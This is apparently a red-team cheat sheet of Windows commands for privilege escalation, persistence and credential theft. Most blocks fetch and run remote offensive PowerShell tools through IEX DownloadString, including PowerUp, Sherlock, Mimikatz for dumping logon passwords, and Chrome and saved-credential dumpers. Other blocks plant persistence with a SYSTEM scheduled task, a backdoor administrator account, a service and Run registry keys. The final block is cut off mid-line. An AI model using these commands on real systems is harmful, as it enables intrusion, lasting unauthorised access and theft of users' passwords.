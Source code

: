 # PowerUp
```
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1')
Invoke-AllChecks
```

# SharpUp
```
https://github.com/GhostPack/SharpUp
```

# Sherlock
```
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1')
Find-AllVulns
```

# Watson
```
https://github.com/rasta-mouse/Watson
```

# Create new task
```
schtasks /create /sc minute /mo 1 /tn "eviloo" /tr C:\shell.exe /ru "SYSTEM"
schtasks /create /sc onlogon /tn "task-name" /tr "File" /ru "username"
```

# Add User
```
net user testuser P@ssw0rd /add
net localgroup administrators testuser /add
```

# Create Service
```
sc create evilsvc binPath= "c:\Windows\System32\calc.exe" start= "auto"
```

# Registry Keys
```
REG ADD HKEY_CURRENT_USER\SOFTWARE\Microsoft\CurrentVersion\Run /v test /d "C:\shell.exe"
REG ADD HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\CurrentVersion\Run /v test /d "C:\shell.exe"
```

# StartUp Folder (Run(shell:startup))
```
C:\Users\Hassan.saad\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

# Memory Dump
```
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/hassan0x/test/master/mim.ps1')
Invoke-Mimikatz -Command 'privilege::debug'
Invoke-Mimikatz -Command 'sekurlsa::logonpasswords'
```
![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/HostEnumeration/Screen1.png?raw=true)

# Windows Credentials Manager
```
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/peewpw/Invoke-WCMDump/master/Invoke-WCMDump.ps1')
Invoke-WCMDump
```

# Web Credentials Manager
```
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-WebCredentials.ps1')
Get-WebCredentials
```

# Chrome Passwords
```
https://github.com/ohyicong/decrypt-chrome-passwords/raw/main/decrypt_chrome_password.exe
```

# Chrome History
```
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/collection/Get-ChromeDump.ps1')
Get-ChromeDump > chromepwds.txt
```

# Other Saved Credentials
```
System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1')
Invoke-SessionGopher -Thorough
```
